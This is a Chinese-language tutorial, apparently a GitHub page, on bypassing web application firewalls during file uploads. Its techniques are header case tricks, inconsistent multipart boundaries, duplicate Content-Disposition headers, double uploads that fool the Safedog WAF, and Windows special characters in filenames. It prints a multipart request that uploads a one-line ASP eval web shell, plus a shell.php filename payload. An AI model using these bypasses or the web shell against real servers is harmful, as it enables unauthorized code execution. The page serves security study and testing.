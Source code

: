 比如`name`转换成`Name`或者`nAme`，`Content-Disposition`转换成`content-disposition`等


#### Boundary边界不一致
* 每次文件上传时的Boundary边界都是一致的：

```
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream
<%eval request("a")%>
-----------------------------4714631421141173021852555099--
```

* 但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段`Boundary`不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨：Win2k3 + IIS6.0 + ASP

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221136.png)

#### 文件名处回车

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221104.png)


#### 多个Content-Disposition
* 在IIS的环境下，上传文件时如果存在多个`Content-Disposition`的话，IIS会取第一个Content-Disposition中的值作为接收参数，而如果waf只是取最后一个的话便会被绕过，Win2k8 + IIS7.0 + PHP  

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221016.png)

#### 双文件上传
* 安全狗有专门的**文件上传防御模块**，禁止`cdx、cer、cgi、dll、exe、jsp、php、asp、aspx`等类型的文件上传。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221001.png)

安全狗进行文件名匹配时候用的是第一个文件名`111.jpg`，是符合安全要求的，第二个文件没有检查，但是webserver在保存文件的时候却保存了第二个文件名`111.php`。

#### windows特殊字符
* 当我们上传一个文件的filename为
```
shell.php{%80-%99}
```
时：waf可能识别为
```
.php{%80-%99}
```
就会导致被绕过。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/_1528647237_911486288_1536893332)

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/_1528647198_1706008271_1536893346)
